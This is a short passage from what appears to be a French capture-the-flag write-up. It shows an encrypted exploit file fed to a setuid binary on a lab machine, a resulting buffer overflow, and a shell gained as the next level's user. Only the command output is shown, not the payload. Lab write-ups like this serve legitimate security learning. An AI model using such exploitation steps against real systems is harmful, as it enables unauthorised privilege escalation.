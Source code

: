 Ensuite je chiffre le fichier et je le donne au binaire :

```bash
level3@pb0x:/home/level3$ ./level4 exploit_file.crypt password        
Message: AAAAAAAAAAAAAAA---snip---AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
$ id
uid=1004(level4) gid=1003(level3) groups=1004(level4),1003(level3)
$ cd /home/level4
$ ls -al
total 608
drwxr-x--- 2 level4 level4   4096 Jan  4  2015 .
drwxr-xr-x 7 root   root     4096 Jan  3  2015 ..
-rw-r--r-- 1 level4 level4    220 Jan  3  2015 .bash_logout
-rw-r--r-- 1 level4 level4   3486 Jan  3  2015 .bashrc
-rw-r--r-- 1 level4 level4    675 Jan  3  2015 .profile
-rw------- 1 level4 level4    759 Jan  4  2015 .viminfo
-rwsr-xr-x 1 root   level4 596244 Jan  3  2015 level5
```

Bingo ! La suite au prochain épisode ?

*Publié le 27 décembre 2022*
